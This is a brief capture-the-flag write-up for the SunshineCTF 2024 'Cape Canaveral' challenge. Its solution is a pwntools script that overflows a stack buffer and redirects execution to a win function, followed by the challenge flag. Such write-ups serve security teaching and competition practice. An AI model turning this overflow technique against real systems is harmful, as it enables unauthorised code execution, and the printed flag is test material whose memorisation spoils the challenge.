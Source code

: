 # Cape Canaveral

Solved by: @n3r

## Question:
Drive your way to the greatest Space Coast in the United States!

## Solution:
```
from pwn import *

elf = context.binary = ELF('./canaveral', checksec=False)
#p = process()
p = remote('2024.sunshinectf.games', 24602)

win = 0x00000000004011b6
offset = 112
ret = 0x000000000040101a

payload = b'A'*offset
payload += b'B'*8
payload += p64(ret)
payload += p64(win)

#print(payload)
p.sendlineafter(b':', payload)
p.interactive()
```

**Flag:** `sun{Wait, that duck isn't a duck, it's really a polar bear.}`
